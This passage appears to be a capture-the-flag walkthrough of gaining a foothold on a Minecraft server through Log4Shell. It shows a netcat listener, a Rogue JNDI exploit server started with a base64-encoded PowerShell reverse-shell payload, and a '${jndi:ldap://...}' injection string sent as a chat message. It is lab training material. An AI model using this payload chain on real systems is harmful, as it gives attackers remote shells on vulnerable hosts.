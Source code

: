```shell
Type '/quit' to leave the server.
```

## Foothold

We now have access to Minecraft server and as next step we will use `Rogue JNDI` as exploit server to try get a reverse shell.

To start with we will build Rogue JNDI.

```shell
labadmin@labmachine:~/crafty$ git clone https://github.com/veracode-research/rogue-jndi.git
[...OMITTED...]
labadmin@labmachine:~/crafty$ cd rogue-jndi/
labadmin@labmachine:~/crafty$ mvn package
[...OMITTED...]
```

Next we start a local network listener.

```shell
labadmin@labmachine:~/crafty$ nc -lvnp 6000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6000
Ncat: Listening on 0.0.0.0:6000
```

Then we generate reverse shell payload [https://www.revshells.com/](https://www.revshells.com/) using powershell and base64 encoding.

Now we go to the directory we built Rogue JNDI and start the exploit server by `target/RogueJndi-1.1.jar` with the reverse shell payload. Then we leave it to wait for our call from the Minecraft server.

```shell
labadmin@labmachine:~/crafty/rogue-jndi$ java -jar target/RogueJndi-1.1.jar --command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdA[...OMITTED...]UAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" --hostname "10.10.16.13"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
[...OMITTED...]
```

From the Minecraft documentation we find out we can use the send command to send messages to the server.

[https://mccteam.github.io/guide/usage.html#send](https://mccteam.github.io/guide/usage.html#send)

So we go back the Minecraft server terminal and send payload to call our local Rogue JNDI server that will setup the reverse shell for us.

```shell
<duser> ${jndi:ldap://10.10.16.13:1389/o=reference}
```
